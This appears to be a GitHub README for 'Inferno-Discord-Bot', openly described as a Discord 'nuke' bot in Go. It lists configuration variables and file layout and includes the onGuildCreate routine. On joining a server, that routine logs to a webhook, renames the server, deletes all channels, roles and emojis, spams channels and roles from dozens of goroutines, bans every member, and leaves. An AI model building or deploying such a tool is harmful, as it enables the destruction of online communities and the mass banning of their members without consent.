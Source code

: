 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno-Discord-Bot
A powerful Discord nuke bot written on Go
<hr>

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_ID: Webhook's ID
    WEBHOOK_TOKEN: Webhook's Token
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
<p>/// All values are have string data type</p>

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
<h1>main.go - launches bot and OnGuildCreate handler from auto.go</h1>
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
<h1>auto.go - launches bot's functions from cogs folder if bot joined the guilld </h1>
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
   var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteChannels(s, event)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
    }
</pre>
<hr>
# cogs folder
There's located all bot's functions.
<pre>
    channels.go: 2 functions (DeleteChannels, TextSpam)
    emoji.go: 1 function that deletes all emojis from the server
    leave.go: 1 function that leaves from the server
    members.go: 1 function that bans all members from the server
    rename.go 1 function that renames the server 
    roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
    webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

